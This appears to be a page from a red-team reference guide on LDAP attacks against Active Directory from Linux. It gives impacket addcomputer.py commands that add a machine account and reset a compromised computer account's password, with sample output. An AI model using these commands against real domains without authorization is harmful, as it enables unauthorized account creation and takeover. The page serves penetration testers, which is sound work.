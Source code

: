 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# LDAP
## Attacks
### From a Linux Machine

* Create a New Machine Account
	* <details><summary>impacket's addcomputer.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
		* Examples
			* Example 1

					addcomputer.py -computer-name 'SHUTDOWN$' -computer-pass 'SomePassword' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\anonymous:anonymous'
* Change password of compromised computer account
	* <details><summary>impacket's addcomputer.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
		* Examples
			* Example 1

					addcomputer.py -domain-netbios $DOMAIN_NETBIOS -no-add -computer-name $DOMAIN_COMPUTER -computer-pass 'P@ssw0rd' $DOMAIN/$DOMAIN_USER_PRIVILEGED:$PASSWORD
				* Example Output

						root@jack-Virtual-Machine:~/Responder# addcomputer.py -domain-netbios $DOMAIN_NETBIOS -no-add -computer-name KERBEROSUNCD -computer-pass 'P@ssw0rd' $DOMAIN/$DOMAIN_ADMIN:$PASSWORD
						Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

						[*] Successfully set password of KERBEROSUNCD$ to P@ssw0rd.